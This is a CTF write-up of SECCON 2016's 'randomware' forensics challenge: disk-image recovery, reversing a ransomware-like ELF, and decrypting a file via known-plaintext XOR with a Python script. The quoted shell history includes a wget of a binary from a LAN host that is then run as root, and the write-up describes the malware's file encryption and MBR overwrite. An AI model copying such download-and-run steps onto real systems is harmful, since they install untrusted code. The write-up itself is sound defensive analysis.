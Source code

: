 # [SECCON Quals CTF 2016](http://2016.seccon.jp/): [randomware](https://score-quals.seccon.jp/question/19a84b2eeb383263660420d7aa70372120b89771)

**Category:** Forensics
**Points:** 300
**Solves:** 38
**Description:**

> randomware
>
> My PC suddenly got broken. Could you help me to recover it please?
> NOTE: The disk can be virus-infected. DO NOT RUN any programs extracted from the disk outside of sandbox.
>
> [disk.qcow2.zip](http://files.quals.seccon.jp/disk.qcow2.zip)
> Challenge files is huge, please download it first. Password will release after 60min.
>
> password: h9nn4c2955kik9qti9xphuxti

## writeup

A short, not so hard forensics challenge, but perhaps more reversing
including basic crypto. Unzipping the challenge zip (with the provided
password) it is a plain
[qcow2](https://en.wikipedia.org/wiki/Qcow) image. It is a dense
[copy-on-write](https://en.wikipedia.org/wiki/Copy-on-write)
format. To deal with it easier, let us convert it to raw
with [`qemu-img`](https://linux.die.net/man/1/qemu-img)
(included with [qemu](http://wiki.qemu.org/Main_Page):

```
$ qemu-img convert disk.qcow2 disk.raw
```

The output file looks like a raw disk image, but
partition table seems to be corrupted:

```
$ file disk.raw 
disk.raw: DOS/MBR boot sector
$ fdisk -l disk.raw
Disk disk.raw: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x00000000
```

Dumping the file shows lots of data, so let us try to
recover that corrupted partition table (using the
standard recovery tool [TestDisk](http://www.cgsecurity.org/wiki/TestDisk)).
Doing an "Analyse / Quick Search" with "Intel" partition
type on the raw disk image immediately reveals the
healthy FAT32 partition. It is not important, but
it can be written to the file.

![TestDisk](./screenshot_testdisk.png)

Now the disk image has been fixed, FAT32 partition
is available:
```
$ fdisk -l disk.raw 
Disk disk.raw: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x00000000

Device     Boot Start     End Sectors    Size Id Type
disk.raw1  *       63 2088449 2088387 1019.7M  b W95 FAT32
```

Mounting it is straightforward (it starts on sector 63,
sector size is 512 bytes, so offset is `63*512=32256` (in bytes)):
```
# mount -t vfat -o offset=32256,ro disk.raw  mnt/
```

Observing the structure it can be identified as a
[Tiny Core Linux](http://tinycorelinux.net/welcome.html) system.
The custom part of the system is probably in `/mydata.tgz`,
so it should be the most interesting stuff for further investigation.

It contains a home directory for user `tc` with some basic (almost
useless) config folders, a `.mozilla` folder with a profile, and
some very interesting files in the home:
```
home/tc/.ash_history
home/tc/getflag
home/tc/h1dd3n_s3cr3t_f14g.jpg
```

Here we should not forget the challenge NOTE about virus-infection:
the `getflag` is an ELF32 binary which must not be executed (outside
a sandbox!).

Dumping the history file:
```
tce-load -wil firefox-ESR
exit
tce-load -i firefox-ESR
firefox 172.17.0.1
wget http://172.17.0.1/getflag.bin -O getflag --user-agent="Chrome"
./getflag 
chmod +x getflag 
./getflag 
sudo ./getflag 
ls
firefox h1dd3n_s3cr3t_f14g.jpg 
```

So the user invoked [`tce-load`](http://wiki.tinycorelinux.net/wiki:tce-load)
and installed Firefox-ESR, downloaded `getflag` binary (from LAN)
executed getflag (as root, probably not the best idea ;) ), and tried to open
`h1dd3n_s3cr3t_f14g.jpg` in Firefox.

Unfortunately the jpeg file is a garbage.

### reversing the malware

The binary `getflag` is an ELF32, dynamically linked and fortunately not
stripped binary:
```
$ file home/tc/getflag 
home/tc/getflag: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=60e977599ec0a53c4406d8a9a941ce736aff9064, not stripped
```

It is a short binary full of symbols, so basic usage of
[r2](http://radare.org/r/) is more than enough to understand the malware.

![pdf @sym.main](./screenshot_r2.png)

So the malware (ranDomware) does the following:

1. Checks for user id (==`root`)
2. `wget http://172.17.0.1/h1dd3n_s3cr3t_f14g.jpg`
3. Creates `encrypt_key` with 0x400 bytes pulled from `/dev/urandom`
4. Searches `/home/tc` recursively for files with suffix
`.txt`, `.bin`, `.jpg`, `.jpeg`, `.png`, `.gif`, `.bmp`, `.tif`, `.tiff`,
`.doc`, `.docx`, `.docm`, `.xls`, `.xlsx`, `.xlsm`, `.ppt`, `.pptx`, `.pptm`,
`.odt`, `.odf`, `.xml`.
5. Encrypts and overwrites the matching files by XORing somehow with
the random `encrypt_key`.
6. And as a bonus, overwrites the MBR of the disk with a custom code. (WARNING: DO NOT TRY TO EXECUTE IT!!!)

### ranDomware vulnerability

In order to decrypt the encrypted `h1dd3n_s3cr3t_f14g.jpg`, the
random generated `encrypt_key` must be found somehow. It is not
impossible, because the malware XOR encrypts every file it founds
with exactly the same `encrypt_key`. Thus, if we find an encrypted
file (`C`) with known plaintext `P` (and with a size bigger than
the key size (0x400 = 1024 byes)), the key can be calculated
trivially:
```
encrypt_key = C[:0x400] ^ P[:0x400]
```

### searching for known plaintext

There are possible encrypted `*.xml` files with known plaintext in
`home/tc/.local/share/mime/packages/` but the size is too small.
Fortunately there is an encrypted `blocklist.xml` file in the
Firefox profile folder:
```
home/tc/.mozilla/firefox/wir5mrmb.default/blocklist.xml
```

Now the original plaintext of `blocklist.xml` must be found.
Probably it is part of the appropriate Firefox tarball.
Reading `prefs.js` from the profile dir, the variable
`gecko_mstone` identifies the version: `45.0`. Moreover,
it is surely an
[ESR](https://www.mozilla.org/en-US/firefox/organizations/faq/)
according to the previously parsed `.ash_history` file above.

Browsing the
[Firefox FTP release folder](https://ftp.mozilla.org/pub/firefox/releases/),
the [45.0esr](https://ftp.mozilla.org/pub/firefox/releases/45.0esr/)
version can be [downloaded](https://ftp.mozilla.org/pub/firefox/releases/45.0esr/linux-i686/en-US/firefox-45.0esr.tar.bz2).

Extracting the tarball `firefox/browser/blocklist.xml` matches
the encrypted `blocklist.xml` size (207840 bytes), so it is almost sure,
that the corresponding plaintext file has been found.


### Decrypting the flag

The following simple [Python3 script](./decrypt.py)
calculates the XOR key from the plaintext and
encrypted version of `blocklist.xml` and decrypts
`h1dd3n_s3cr3t_f14g.jpg`:

```python
#!/usr/bin/python3
#

key = [b'\x00']*0x400
enc = open('./home/tc/h1dd3n_s3cr3t_f14g.jpg', 'rb').read()
dec = b''

f2 = 'blocklist.xml'
c2 = open('./home/tc/.mozilla/firefox/wir5mrmb.default/' + f2, 'rb').read()
p2 = open('./firefox/browser/' + f2, 'rb').read()

for i in range(len(key)):
    key[i] = bytes([p2[i] ^ c2[i]])

for i in range(len(enc)):
    dec += bytes([enc[i] ^ ord(key[i%len(key)])])

open('./f14g_decrypted.jpg', 'wb').write(dec)
```

Displaying the output jpeg shows the flag:
```
SECCON{This is Virtual FAT too}
```

![SECCON{This is Virtual FAT too}](./f14g_decrypted.jpg)

The challenge was completed in the awesome team
[OpenToAll](https://ctftime.org/team/9135) which finished as
[21st](http://ranking.quals.seccon.jp/).
